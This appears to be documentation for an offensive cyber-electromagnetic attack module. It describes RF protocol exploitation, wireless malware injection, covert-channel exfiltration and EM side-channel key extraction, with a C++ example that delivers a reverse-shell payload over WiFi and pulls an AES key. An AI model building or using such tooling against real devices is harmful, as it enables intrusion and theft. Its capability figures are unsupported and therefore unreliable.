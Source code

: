 # Cyber EM (Cyber-Electromagnetic) Module Documentation

## Module Overview

The Cyber EM module bridges cyber operations with electromagnetic warfare, enabling simultaneous digital and RF attacks. It implements protocol exploitation through EM side-channels, cross-domain operations, and unified cyber-electromagnetic effects. The module can inject cyber payloads via RF, extract data through EM emanations, and coordinate multi-domain operations.

## Functions & Classes

### `EMCyberController`
- **Purpose**: Coordinates cyber and EM operations
- **Key Methods**:
  - `execute_cross_domain_attack()` - Combined cyber-EM operation
  - `extract_em_side_channel()` - Data exfiltration via RF
  - `inject_rf_malware()` - Wireless payload delivery
  - `em_protocol_fuzzing()` - RF protocol exploitation
  - `coordinate_effects()` - Sync cyber and EM actions
- **Return Types**: AttackVector, ExfiltrationData
- **Capabilities**: 2.4-6 GHz operation, 100 Mbps RF data rate

### `ProtocolExploitationEngine`
- **Purpose**: Exploits vulnerabilities in wireless protocols
- **Key Methods**:
  - `scan_rf_protocols()` - Identify active protocols
  - `analyze_protocol_state()` - State machine analysis
  - `craft_exploit_frame()` - Generate attack packets
  - `inject_via_sdr()` - Software-defined radio TX
  - `monitor_effects()` - Assess exploitation success
- **Supported Protocols**: WiFi, Bluetooth, ZigBee, LoRa, LTE
- **Success Rate**: 70% against unpatched systems

### `SideChannelAnalyzer`
- **Purpose**: Extracts information from EM emanations
- **Key Methods**:
  - `capture_em_emissions()` - Wideband signal capture
  - `extract_crypto_keys()` - DPA/DEMA attacks
  - `decode_screen_content()` - TEMPEST monitoring
  - `fingerprint_device()` - EM signature analysis
  - `correlate_power_patterns()` - Power analysis
- **Sensitivity**: -120 dBm noise floor
- **Range**: 10-100m depending on target

### Attack Patterns

#### Cross-Domain Attacks
1. **RF→Cyber**: Inject malware via Bluetooth/WiFi
2. **Cyber→RF**: Exfiltrate data through EM covert channel
3. **EM→Physical**: Induce faults via EM pulses
4. **Combined**: Synchronized multi-vector attacks

#### Protocol Exploits
- **Packet-in-Packet**: Hidden frames in legitimate traffic
- **State Confusion**: Invalid state transitions
- **Timing Attacks**: Race conditions via RF
- **Replay Attacks**: Captured and modified frames

## Example Usage

```cpp
// Initialize Cyber-EM system
CyberEMConfig config;
config.sdr_device = "/dev/sdr0";
config.frequency_range = {2.4e9, 6.0e9};
config.sample_rate = 100e6; // 100 MS/s
config.tx_power = 30; // dBm

EMCyberController cyber_em(config);

// Reconnaissance phase
auto rf_environment = cyber_em.scan_rf_environment();

std::cout << "Detected protocols:" << std::endl;
for (const auto& protocol : rf_environment.protocols) {
    std::cout << "  " << protocol.name 
              << " at " << protocol.frequency/1e6 << " MHz"
              << " (Signal: " << protocol.rssi << " dBm)" << std::endl;
}

// Target identification
Target target;
target.mac_address = "AA:BB:CC:DD:EE:FF";
target.protocol = Protocol::WIFI_80211;
target.channel = 6;

// Cross-domain attack
CrossDomainAttack attack;
attack.type = AttackType::MALWARE_INJECTION;
attack.cyber_payload = load_payload("reverse_shell.bin");
attack.em_vector = EMVector::PACKET_INJECTION;

auto result = cyber_em.execute_cross_domain_attack(target, attack);

if (result.success) {
    std::cout << "Payload delivered successfully" << std::endl;
    
    // Establish covert channel for exfiltration
    auto covert_channel = cyber_em.create_em_covert_channel(
        frequency = 2.45e9,
        bandwidth = 1e6,
        modulation = Modulation::QPSK
    );
    
    // Exfiltrate data
    while (auto data = receive_exfil_data()) {
        covert_channel.transmit(data);
    }
}

// Side-channel analysis
SideChannelAnalyzer analyzer;
analyzer.set_target_frequency(target.cpu_frequency);

// Capture EM emanations during crypto operation
auto em_trace = analyzer.capture_em_emissions(
    duration_ms = 1000,
    trigger = EMTrigger::POWER_SPIKE
);

// Extract AES key via DPA
auto extracted_key = analyzer.extract_crypto_keys(
    em_trace,
    algorithm = CryptoAlgorithm::AES_256
);

if (extracted_key.confidence > 0.9) {
    std::cout << "Successfully extracted AES key with "
              << extracted_key.confidence * 100 << "% confidence" << std::endl;
}
```

## Integration Notes

- **CEW**: Shares RF frontend and jamming capabilities
- **Core**: Uses quantum-resilient crypto for own operations
- **Swarm**: Coordinates distributed EM collection
- **Countermeasures**: EM pulses for system disruption
- **Digital Twin**: Models EM propagation effects

## Technical Specifications

| Parameter | Value | Notes |
|-----------|-------|-------|
| Frequency Range | 10 MHz - 6 GHz | SDR dependent |
| Sample Rate | 100 MS/s | Complex samples |
| Sensitivity | -120 dBm | With LNA |
| TX Power | +30 dBm | 1W with PA |
| Processing Latency | <10 ms | Real-time |
| Protocol Support | 15+ | Extensible |

## Advanced Capabilities

### EM Injection Techniques
- **Direct Injection**: Physical coupling
- **Radiated Injection**: Far-field transmission
- **Conducted Injection**: Power line coupling
- **Acoustic Injection**: Ultrasonic to EM conversion

### Covert Channels
- **Spread Spectrum**: Below noise floor
- **Steganographic**: Hidden in legitimate traffic
- **Temporal**: Timing-based encoding
- **Frequency Hopping**: Anti-detection

### AI-Enhanced Operations
- **Protocol Learning**: Automatic reverse engineering
- **Anomaly Detection**: Identify vulnerabilities
- **Adaptive Exploitation**: ML-guided attacks
- **Pattern Recognition**: Device fingerprinting

## TODOs or Refactor Suggestions

1. **TODO**: Implement 5G NR protocol exploitation
2. **TODO**: Add quantum key extraction capabilities
3. **Enhancement**: GPU acceleration for signal processing
4. **Research**: Exploit EM emanations from quantum computers
5. **Feature**: Automated vulnerability discovery
6. **Hardware**: Custom FPGA for real-time processing
7. **Testing**: EM anechoic chamber validation
8. **Integration**: SCADA/ICS protocol support